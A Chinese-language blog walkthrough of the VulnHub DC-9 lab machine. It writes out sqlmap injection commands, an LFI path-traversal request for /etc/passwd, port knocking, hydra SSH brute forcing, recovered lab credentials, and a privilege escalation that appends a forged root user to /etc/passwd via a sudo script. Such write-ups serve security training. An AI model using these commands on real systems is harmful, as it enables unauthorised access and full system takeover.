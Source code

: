 ```yaml
---
layout: post
title:  "DC-9"
description: walkthrough
category: vulnhub
---
```

# DC-9

![image-20200619095442395]({{ site.url }}/assets/DC-9.assets/image-20200619095442395.png)

![image-20200619100459511]({{ site.url }}/assets/DC-9.assets/image-20200619100459511.png)

![image-20200619100638593]({{ site.url }}/assets/DC-9.assets/image-20200619100638593.png)

80页面目录看了一圈没什么有用的，抓search通讯包

![image-20200619102730763]({{ site.url }}/assets/DC-9.assets/image-20200619102730763.png)

![image-20200619102902653]({{ site.url }}/assets/DC-9.assets/image-20200619102902653.png)

sqlmap注入并dump

```bash
sqlmap -r search.txt --dbs --batch --dump
```

![image-20200619102933100]({{ site.url }}/assets/DC-9.assets/image-20200619102933100.png)

```bash
admin：856f5de590ef37314e7c3bdf6f8a66dc
```

![image-20200619103044318]({{ site.url }}/assets/DC-9.assets/image-20200619103044318.png)

```bash
admin:transorbital1
```

![image-20200619103401933]({{ site.url }}/assets/DC-9.assets/image-20200619103401933.png)

![image-20200619103429063]({{ site.url }}/assets/DC-9.assets/image-20200619103429063.png)

看了看还是没有什么新线索，这里可能有一个LFI？

![image-20200619103914249]({{ site.url }}/assets/DC-9.assets/image-20200619103914249.png)

但是我们并不知道参数是什么，可以盲目的猜测到可能是file

```bash
http://10.10.10.136/manage.php?file=../../../../../../etc/passwd
```

![image-20200619110522919]({{ site.url }}/assets/DC-9.assets/image-20200619110522919.png)

考虑到ssh一直被过滤，可以查看/etc/knockd.conf 设置已知道敲端口的顺序

![image-20200619110625166]({{ site.url }}/assets/DC-9.assets/image-20200619110625166.png)

![image-20200619111201633]({{ site.url }}/assets/DC-9.assets/image-20200619111201633.png)

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 7469 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 8475 10.10.10.136
nmap -Pn --host-timeout 100 --max-retries 0 -p 9842 10.10.10.136
```

![image-20200619112439403]({{ site.url }}/assets/DC-9.assets/image-20200619112439403.png)

![image-20200619112508605]({{ site.url }}/assets/DC-9.assets/image-20200619112508605.png)

试验了一下之前的登录凭据复用，但是并不正确。

考虑到我们已经得到的信息，可以回数据库，考虑到我们之前只dump了staff库，并没有dump users库

![image-20200619113125143]({{ site.url }}/assets/DC-9.assets/image-20200619113125143.png)

重新dump一下

```bash
sqlmap -r search.txt -D users --batch --dump
```

![image-20200619113258714]({{ site.url }}/assets/DC-9.assets/image-20200619113258714.png)

果然，前期枚举并不够细致，漏下了重要信息。

将凭据生成username.txt和passwd.txt以便传入hydra暴力测试ssh

```bash
hydra -L username.txt -P passwd.txt 10.10.10.136 ssh
```

得到凭据

```bash
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

逐个登录检查

在janitor的目录下发现了更多密码

![image-20200619114228294]({{ site.url }}/assets/DC-9.assets/image-20200619114228294.png)

使用这些密码增加字典，并重复暴力ssh

得到了新的凭证。

`fredf:B4-Tru3-001`

![image-20200619114401671]({{ site.url }}/assets/DC-9.assets/image-20200619114401671.png)

![image-20200619114434633]({{ site.url }}/assets/DC-9.assets/image-20200619114434633.png)

这是已经编译好的执行文件，在文件夹逐步搜索，在上N级目录中找到了其对应的python源码

![image-20200619114904395]({{ site.url }}/assets/DC-9.assets/image-20200619114904395.png)

![image-20200619114948993]({{ site.url }}/assets/DC-9.assets/image-20200619114948993.png)

看代码是打开第一个文件，读取内容，然后打开第二个文件，将第一个文件的内容写入到第二个文件之后。也就是说我们可以利用这个程序，为passwd文件附加伪造的root用户。

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888]({{ site.url }}/assets/DC-9.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

然后将此伪造内容echo进一个新的文件

![image-20200619115800908]({{ site.url }}/assets/DC-9.assets/image-20200619115800908.png)



接着利用sudo

```bash
sudo ../opt/devstuff/dist/test/test evil.txt /etc/passwd		
```

![image-20200619120313373]({{ site.url }}/assets/DC-9.assets/image-20200619120313373.png)

可以看到已经成功添加

![image-20200619120346897]({{ site.url }}/assets/DC-9.assets/image-20200619120346897.png)

切换到evil用户

![image-20200619120427900]({{ site.url }}/assets/DC-9.assets/image-20200619120427900.png)